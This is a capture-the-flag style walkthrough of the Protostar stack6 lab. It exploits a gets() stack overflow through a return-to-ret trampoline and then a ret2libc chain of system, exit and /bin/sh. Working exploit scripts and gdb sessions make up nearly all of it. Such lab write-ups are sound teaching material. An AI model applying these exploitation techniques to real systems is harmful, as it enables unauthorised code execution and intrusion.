


#### 15. Ret2libc with a Buffer Overflow because of restricted return pointer

`Stack6` looks at what happens when you have restrictions on the return address.

- This level can be done in a couple of ways, such as finding the duplicate of the payload (objdump -s) will help with this), or `ret2libc`, or even `return orientated programming`.
- It is strongly suggested you experiment with multiple ways of getting your code to execute here.
- This level is at `/opt/protostar/bin/stack6`

`stack6.c`

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

```sh
user@protostar:/opt/protostar/bin$ ./stack6
input path please: AAAAAAAAAAAAAAAAAA
got path AAAAAAAAAAAAAAAAAA
user@protostar:/opt/protostar/bin$
```

`pattern.py`

```python
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
print padding
```

```sh
user@protostar:/opt/protostar/bin$ cat /tmp/pattern | ./stack6
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
Segmentation fault
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack6 -q
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080484fa <main+0>:	push   ebp
0x080484fb <main+1>:	mov    ebp,esp
0x080484fd <main+3>:	and    esp,0xfffffff0
0x08048500 <main+6>:	call   0x8048484 <getpath>
0x08048505 <main+11>:	mov    esp,ebp
0x08048507 <main+13>:	pop    ebp
0x08048508 <main+14>:	ret
End of assembler dump.
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x08048484 <getpath+0>:	push   ebp
0x08048485 <getpath+1>:	mov    ebp,esp
0x08048487 <getpath+3>:	sub    esp,0x68
0x0804848a <getpath+6>:	mov    eax,0x80485d0
0x0804848f <getpath+11>:	mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:	call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:	mov    eax,ds:0x8049720
0x0804849c <getpath+24>:	mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:	call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:	lea    eax,[ebp-0x4c]
0x080484a7 <getpath+35>:	mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:	call   0x8048380 <gets@plt>
0x080484af <getpath+43>:	mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:	mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:	and    eax,0xbf000000
0x080484bd <getpath+57>:	cmp    eax,0xbf000000
0x080484c2 <getpath+62>:	jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:	mov    eax,0x80485e4
0x080484c9 <getpath+69>:	mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:	mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:	mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:	call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:	mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:	call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:	mov    eax,0x80485f0
0x080484e9 <getpath+101>:	lea    edx,[ebp-0x4c]
0x080484ec <getpath+104>:	mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:	mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:	call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:	leave
0x080484f9 <getpath+117>:	ret
End of assembler dump.
(gdb) r < /tmp/pattern
Starting program: /opt/protostar/bin/stack6 < /tmp/pattern
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
(gdb)
```

```sh
>>> chr(0x55)
'U'
>>>
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack6 -q
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080484fa <main+0>:	push   ebp
0x080484fb <main+1>:	mov    ebp,esp
0x080484fd <main+3>:	and    esp,0xfffffff0
0x08048500 <main+6>:	call   0x8048484 <getpath>
0x08048505 <main+11>:	mov    esp,ebp
0x08048507 <main+13>:	pop    ebp
0x08048508 <main+14>:	ret
End of assembler dump.
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x08048484 <getpath+0>:	push   ebp
0x08048485 <getpath+1>:	mov    ebp,esp
0x08048487 <getpath+3>:	sub    esp,0x68
0x0804848a <getpath+6>:	mov    eax,0x80485d0
0x0804848f <getpath+11>:	mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:	call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:	mov    eax,ds:0x8049720
0x0804849c <getpath+24>:	mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:	call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:	lea    eax,[ebp-0x4c]
0x080484a7 <getpath+35>:	mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:	call   0x8048380 <gets@plt>
0x080484af <getpath+43>:	mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:	mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:	and    eax,0xbf000000
0x080484bd <getpath+57>:	cmp    eax,0xbf000000
0x080484c2 <getpath+62>:	jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:	mov    eax,0x80485e4
0x080484c9 <getpath+69>:	mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:	mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:	mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:	call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:	mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:	call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:	mov    eax,0x80485f0
0x080484e9 <getpath+101>:	lea    edx,[ebp-0x4c]
0x080484ec <getpath+104>:	mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:	mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:	call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:	leave
0x080484f9 <getpath+117>:	ret
End of assembler dump.
(gdb) break *0x080484f9
Breakpoint 1 at 0x80484f9: file stack6/stack6.c, line 23.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) r
Starting program: /opt/protostar/bin/stack6
input path please: AAAA
got path AAAA
0x80484f9 <getpath+117>:	ret
0xbffff77c:	0x08048505	0x08048520	0x00000000	0xbffff808
0xbffff78c:	0xb7eadc76	0x00000001	0xbffff834	0xbffff83c

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c
(gdb) si
0x8048505 <main+11>:	mov    esp,ebp
0xbffff780:	0x08048520	0x00000000	0xbffff808	0xb7eadc76
0xbffff790:	0x00000001	0xbffff834	0xbffff83c	0xb7fe1848
main (argc=1, argv=0xbffff834) at stack6/stack6.c:31
31	in stack6/stack6.c
(gdb) info registers
eax            0xe	14
ecx            0x0	0
edx            0xb7fd9340	-1208118464
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff780	0xbffff780
ebp            0xbffff788	0xbffff788
esi            0x0	0
edi            0x0	0
eip            0x8048505	0x8048505 <main+11>
eflags         0x200292	[ AF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb)
```



`exploit.py`

```python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
eip = struct.pack('I', 0xbffff780)
payload = "\xCC"*4

print padding+eip+payload
```

```sh
user@protostar:/tmp$ python exploit.py > exploit
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack6 -q
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080484fa <main+0>:	push   ebp
0x080484fb <main+1>:	mov    ebp,esp
0x080484fd <main+3>:	and    esp,0xfffffff0
0x08048500 <main+6>:	call   0x8048484 <getpath>
0x08048505 <main+11>:	mov    esp,ebp
0x08048507 <main+13>:	pop    ebp
0x08048508 <main+14>:	ret
End of assembler dump.
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x08048484 <getpath+0>:	push   ebp
0x08048485 <getpath+1>:	mov    ebp,esp
0x08048487 <getpath+3>:	sub    esp,0x68
0x0804848a <getpath+6>:	mov    eax,0x80485d0
0x0804848f <getpath+11>:	mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:	call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:	mov    eax,ds:0x8049720
0x0804849c <getpath+24>:	mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:	call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:	lea    eax,[ebp-0x4c]
0x080484a7 <getpath+35>:	mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:	call   0x8048380 <gets@plt>
0x080484af <getpath+43>:	mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:	mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:	and    eax,0xbf000000
0x080484bd <getpath+57>:	cmp    eax,0xbf000000
0x080484c2 <getpath+62>:	jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:	mov    eax,0x80485e4
0x080484c9 <getpath+69>:	mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:	mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:	mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:	call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:	mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:	call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:	mov    eax,0x80485f0
0x080484e9 <getpath+101>:	lea    edx,[ebp-0x4c]
0x080484ec <getpath+104>:	mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:	mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:	call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:	leave
0x080484f9 <getpath+117>:	ret
End of assembler dump.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) break *0x080484f9
Breakpoint 1 at 0x80484f9: file stack6/stack6.c, line 23.
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack6 < /tmp/exploit
input path please: bzzzt (0xbffff780)

Program exited with code 01.
Error while running hook_stop:
No registers.
(gdb)
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack6 -q
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080484fa <main+0>:	push   ebp
0x080484fb <main+1>:	mov    ebp,esp
0x080484fd <main+3>:	and    esp,0xfffffff0
0x08048500 <main+6>:	call   0x8048484 <getpath>
0x08048505 <main+11>:	mov    esp,ebp
0x08048507 <main+13>:	pop    ebp
0x08048508 <main+14>:	ret
End of assembler dump.
(gdb) break *getpath
Breakpoint 1 at 0x8048484: file stack6/stack6.c, line 7.
(gdb) r
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, getpath () at stack6/stack6.c:7
7	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c
(gdb) info proc map
process 1911
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
	0xb7e96000 0xb7e97000     0x1000          0
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0
	0xb7fe0000 0xb7fe2000     0x2000          0
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb) info registers
eax            0xbffff834	-1073743820
ecx            0xd3f8ec16	-738661354
edx            0x1	1
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff77c	0xbffff77c
ebp            0xbffff788	0xbffff788
esi            0x0	0
edi            0x0	0
eip            0x8048484	0x8048484 <getpath>
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb)
```

```sh
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x08048484 <getpath+0>:	push   ebp
0x08048485 <getpath+1>:	mov    ebp,esp
0x08048487 <getpath+3>:	sub    esp,0x68
0x0804848a <getpath+6>:	mov    eax,0x80485d0
0x0804848f <getpath+11>:	mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:	call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:	mov    eax,ds:0x8049720
0x0804849c <getpath+24>:	mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:	call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:	lea    eax,[ebp-0x4c]
0x080484a7 <getpath+35>:	mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:	call   0x8048380 <gets@plt>
0x080484af <getpath+43>:	mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:	mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:	and    eax,0xbf000000
0x080484bd <getpath+57>:	cmp    eax,0xbf000000
0x080484c2 <getpath+62>:	jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:	mov    eax,0x80485e4
0x080484c9 <getpath+69>:	mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:	mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:	mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:	call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:	mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:	call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:	mov    eax,0x80485f0
0x080484e9 <getpath+101>:	lea    edx,[ebp-0x4c]
0x080484ec <getpath+104>:	mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:	mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:	call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:	leave
0x080484f9 <getpath+117>:	ret
End of assembler dump.
(gdb)
```

`exploit.py`

```python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
ret = struct.pack('I', 0x080484f9)
eip = struct.pack('I', 0xbffff780)
payload = "\xCC"*4

print padding+ret+eip+payload
```

```sh
user@protostar:/tmp$ python exploit.py > exploit
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack6 -q
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080484fa <main+0>:	push   ebp
0x080484fb <main+1>:	mov    ebp,esp
0x080484fd <main+3>:	and    esp,0xfffffff0
0x08048500 <main+6>:	call   0x8048484 <getpath>
0x08048505 <main+11>:	mov    esp,ebp
0x08048507 <main+13>:	pop    ebp
0x08048508 <main+14>:	ret
End of assembler dump.
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x08048484 <getpath+0>:	push   ebp
0x08048485 <getpath+1>:	mov    ebp,esp
0x08048487 <getpath+3>:	sub    esp,0x68
0x0804848a <getpath+6>:	mov    eax,0x80485d0
0x0804848f <getpath+11>:	mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:	call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:	mov    eax,ds:0x8049720
0x0804849c <getpath+24>:	mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:	call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:	lea    eax,[ebp-0x4c]
0x080484a7 <getpath+35>:	mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:	call   0x8048380 <gets@plt>
0x080484af <getpath+43>:	mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:	mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:	and    eax,0xbf000000
0x080484bd <getpath+57>:	cmp    eax,0xbf000000
0x080484c2 <getpath+62>:	jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:	mov    eax,0x80485e4
0x080484c9 <getpath+69>:	mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:	mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:	mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:	call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:	mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:	call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:	mov    eax,0x80485f0
0x080484e9 <getpath+101>:	lea    edx,[ebp-0x4c]
0x080484ec <getpath+104>:	mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:	mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:	call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:	leave
0x080484f9 <getpath+117>:	ret
End of assembler dump.
(gdb) break *0x080484f9
Breakpoint 1 at 0x80484f9: file stack6/stack6.c, line 23.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack6 < /tmp/exploit
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPRRRRSSSSTTTT��������
0x80484f9 <getpath+117>:	ret
0xbffff77c:	0x080484f9	0xbffff780	0xcccccccc	0xbffff800
0xbffff78c:	0xb7eadc76	0x00000001	0xbffff834	0xbffff83c

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c
(gdb) si
0x80484f9 <getpath+117>:	ret
0xbffff780:	0xbffff780	0xcccccccc	0xbffff800	0xb7eadc76
0xbffff790:	0x00000001	0xbffff834	0xbffff83c	0xb7fe1848

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23	in stack6/stack6.c
(gdb) i r
eax            0x66	102
ecx            0x0	0
edx            0xb7fd9340	-1208118464
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff780	0xbffff780
ebp            0x54545454	0x54545454
esi            0x0	0
edi            0x0	0
eip            0x80484f9	0x80484f9 <getpath+117>
eflags         0x200292	[ AF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) si
Cannot access memory at address 0x54545458
(gdb) c
Continuing.

Program received signal SIGILL, Illegal instruction.
0xbffff78a:	(bad)
0xbffff784:	0xcccccccc	0xbffff800	0xb7eadc76	0x00000001
0xbffff794:	0xbffff834	0xbffff83c	0xb7fe1848	0xbffff7f0
0xbffff78a in ?? ()
(gdb)
```

```sh
root@kali:~# man system
```



```sh
user@protostar:/opt/protostar/bin$ gdb ./stack6 -q
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) r
Starting program: /opt/protostar/bin/stack6
input path please: AAA
got path AAA

Program exited with code 015.
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
(gdb)
```

`sys.c`

```c
#include<stdlib.h>

void main()
{
	system("/bin/sh");
}
```

```sh
user@protostar:/tmp$ gcc sys.c -o sys
```

```sh
user@protostar:/tmp$ ./sys
$ id
uid=1001(user) gid=1001(user) groups=1001(user)
$
user@protostar:/tmp$
```

```sh
user@protostar:/tmp$ gdb ./sys -q
Reading symbols from /tmp/sys...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x10
0x080483cd <main+9>:	mov    DWORD PTR [esp],0x80484a0
0x080483d4 <main+16>:	call   0x80482ec <system@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) x/s 0x80484a0
0x80484a0:	 "/bin/sh"
(gdb) quit
user@protostar:/tmp$
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack6 -q
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, main (argc=1, argv=0xbffff834) at stack6/stack6.c:27
27	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c
(gdb) info proc map
process 2071
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
	0xb7e96000 0xb7e97000     0x1000          0
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0
	0xb7fe0000 0xb7fe2000     0x2000          0
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb) find 0xb7e97000, +9999999, "/bin/sh"
0xb7fba23f
warning: Unable to access target memory at 0xb7fd9647, halting search.
1 pattern found.
(gdb) x/s 0xb7fba23f
0xb7fba23f:	 "KIND in __gen_tempname\""
(gdb)
```

```sh
user@protostar:/opt/protostar/bin$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack6 -q
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, main (argc=1, argv=0xbffff834) at stack6/stack6.c:27
27	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c
(gdb) x/s 0xb7e97000+0x0011f3bf
0xb7fb63bf:	 "/bin/sh"
(gdb)
```

`exploit.py`

```python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
system  = struct.pack("I", 0xb7ecffb0) # p system
exit    = struct.pack("I", 0xb7ec60c0) # p exit {Return after system call}
bin_sh  = struct.pack("I", 0xb7fb63bf) # {strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"} & {x/s 0xb7e97000+0x0011f3bf}

print padding+system+exit+bin_sh
```

```sh
user@protostar:/opt/protostar/bin$ (python /tmp/exploit.py;cat) | ./stack6
